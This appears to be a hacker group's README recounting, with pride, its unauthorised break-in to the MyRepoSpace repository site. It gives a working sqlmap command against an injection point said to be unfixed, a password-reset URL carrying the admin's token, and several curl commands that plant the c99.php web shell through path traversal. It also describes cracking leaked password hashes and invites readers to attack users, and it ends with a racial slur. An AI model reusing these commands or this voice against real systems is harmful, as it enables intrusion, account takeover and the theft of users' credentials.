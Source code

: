 #How We Hacked MyRepoSpace
For this write-up, I'm going to only cover _how_ we were able to gain access to the MRS server, and not the reasons for us doing so.

###How it started
The first bug we used on MRS was a blind SQL injection, found by Ben. This let us access all information stored in the websites databases, but being a blind injection, retrieving anything was very slow. We inadvertently DOS'd the site doing this, bringing it down a few times... Oops.

The URL vulnerable to the injection is: 
```
http://myrepospace.com/register/check1.php?nick=1
```

Using SQLMap, we could gain a SQL shell with:
```
./sqlmap.py -u "http://myrepospace.com/register/check1.php?nick=1" --sql-shell
```

**This has not been fixed**

Using this injection, Ben started snooping through the database contents and  discovered something interesting. Located in the `users` database was a column called `forgetToken`. Investigating further, it was revealed that this token was a randomly generated string, 32 characters long, used for password resets. And it was stored in plain text. 
When you combine this token with the users `id`, you can then do something like this:
```
https://www.myrepospace.com/login/forgot.php?id=215086&v=93bfb5d60cd3778ec5558e29dc3e8c09
```

And you would be greeted with this:

![Password reset page](http://i.imgur.com/tlt5kVI.png)

We could change any users password, access any account that we wanted. The admin account for the site was user id `1`, and with a forgetToken of `0efd8bb79347ada32d249d5f77e6149c`.

###What next?
So this is fun, we could access any account on the site, including the admin's account - but we wanted more. So I went searching. 

One of MRS's 'tools' is iDeb - a part of the site that allows you to upload a zip file, and it converts it into a deb file. This is very handy, but unfortunately it was written very poorly. 

It worked by moving the uploaded zipped file to a temporary directory, unzipping the contents, and then running the `ar` command on the unpacked files to create the debian package. The temporary directory would look something like `http://www.myrepospace.com/iDeb/temp/July/5599b6ff99dba/`, and was completely accessible to us. **This is bad**.

So after figuring out how the iDeb system worked, I simply took a popular php shell, c99.php, zipped it, and uploaded it to be packaged as a deb. Once uploaded, I navigated to the newly created temp directory for the upload, and sure enough `c99.php` was the first file listed. We now had full access to the server, including access to the mysql database. [Discovered by Ethan]

![MySQL database on MRS](http://i.imgur.com/5pihv7Z.png)

###Admin's fix part 1
The first fix the owner of the site did was moving the temporary directory files were unpacked in to a place we couldn't access - `~/tmp`, the full path being something like `~/tmp/iDeb/July/5599b6ff99dba/zip_contents_here`. You'll notice that random string - this is called a UID and is randomly generated **client side** and sent to the server when you upload a zip file. On the server, iDeb runs this code, creating the directory with the UID:

```
$uID = $_POST['UPLOAD_IDENTIFIER'];
$tmp = "/home/myreposp/tmp/iDeb";
$to = "$tmp/$month/$uID/";

if(!File_exists($to)){
	mkdir($to, 0755, true);
}
```
In order to access our uploaded files (the php shell), we need to have them uploaded to a place accessible to us - specifically `/home/myreposp/public_HTML`. Since the `UID` is created client side, we can manually specify it - and since the site doesn't perform any type of checks on the `UID` its sent, we can do some dirty things using curl and path traversal.

```
curl -F "UPLOAD_IDENTIFIER=../../../public_html" -F "upload=@c99.zip" http://www.myrepospace.com/iDeb/upload.php
```

This would unpack our zipped file's contents to the root directory of the website... and we were back in. [Discovered by Ben]

###Admins's fix part 2 
The next thing the site owner did was make the `public_html` directory `root` owned - meaning we couldn't write any files to it. This was actually a pretty clever move, but was executed fairly bad. He forgot to make any subdirectories root owned. `~/public_html/` was off limits, but `~/public_html/vip` wasn't. 

```
curl -F "UPLOAD_IDENTIFIER=../../../public_html/vip" -F "upload=@c99.zip" http://www.myrepospace.com/iDeb/upload.php
```

We were back in. [Discovered by Ethan]

###Admin's fix part 3
After this breach, the tool was modified to delete the unpacked files after the deb was created. It would take the zip file, unpack it, use `ar` to make the deb, and then delete everything except for the new deb, and the original zip (both of which were useless to us). 

Ok, no problemo! We'll just stop uploading zip files, and start uploading our php shell directly, since the only file type check was done client side through ajax. 

```
curl -F "UPLOAD_IDENTIFIER=../../../public_html/vip" -F "upload=@c99.php" http://www.myrepospace.com/iDeb/upload.php
```

And once again, we were in. [Discovered by Andy]

###Admin's fix part 4
So the admin caught on to us uploaded php files, and added a regex check in `upload.php` to ensure no non-zips were uploaded. When we tried to upload our php shell, it returned a scary error telling us we were uploading an invalid file. Awh! But no worries... even though it threw an error at us, it still uploaded our file as usual. Nice job admin!

```
curl -F "UPLOAD_IDENTIFIER=../../../public_html/vip" -F "upload=@c99.php" http://www.myrepospace.com/iDeb/upload.php
```

Ignoring scary errors, we were still in. [Discovered by Andy]

##¯\\\_(&#12484;)_/¯
That's about it, after the last breach the iDeb tool was properly fixed, and our method of getting in was broken. But have no fear, we released the source code to the site, which will reveal that it is littered with bugs and sql injections! All of these 'hacks' were achieved through exploiting a single file, who knows how many other files are as vulnerable as this one was.

~herpes

###About passwords
Passwords were initially **unsalted md5**, until the 2nd of February when the admin switched to... md5 with a static salt. "MRS-WINS", prepended to the password, in case you were wondering. The admin was [quite proud of this](https://twitter.com/myRepoSpace/status/562613742794706944). He kindly left the old passwords in the database for people who hadn't yet changed theirs. We were able to recover about 5000 through rainbow tables and basic dictionary attacks on a recent mid-range CPU in a few hours alone (for research purposes only - but honestly, us telling you we did this is better than someone else secretly using it for evil).

Password resets always use the same static hash (again, an md5 of the password and the unix time of registration tacked on) and so to get into someone's account you can just grab that and paste it into the password reset url. I don't think these ever got re-generated so if someone got a hold of it, you'd be pretty screwed.

After we leaked the user database, the admin changed the hashing to... md5 with a static salt. Now it's "MRS-WINS-AGAIN" - yeah um, nice try but not quite. Apparently the fact that md5 has long been considered obsolete, flawed, and very fast to brute-force on modern hardware, in combination with the fact that a static salt does very little to help, isn't enough to make him spend a moment googling to find how passwords *should* be stored. Grab an md5 from the dump and spend some time learning how to log in without knowing the password by using a colliding hash - go on, I'll wait.

Oh well. It doesn't even matter any more, anyway, because he now kindly sends you a copy of your password hash as a cookie. 

```php
setcookie("gxli","2g".base64_encode("$_SESSION[userID]-$md5pass"),$time+58060800, '/', '.myrepospace.com',false,true);
```

So if you'd like to have a crack at bruteforcing someone's password, just MitM them to grab their cookies (not all of MyRepoSpace enforces HTTPS - oh, and we have their SSL key anyway). Or, change your own user ID, since it's used for the admin's logging. Last we saw this was one of the few places left that allows for an SQLi too. Child's play, really.

You might not think it's a big deal for a not so sensitive site like MyRepoSpace but any time passwords (hashed or not) are leaked, you can guarantee that many people would have used the same password on other sites that may very well be sensitive. There's also the thing of uploading evil packages on otherwise trustable people's repos.

Even if the MyRepoSpace admin claims everything is fixed, it's not. Don't waste your time, go make a repo on GitHub or something.

~ Andy

Fuck bein' on some chill shit. We go 0 to 100 nigga, real quick.

~haifisch
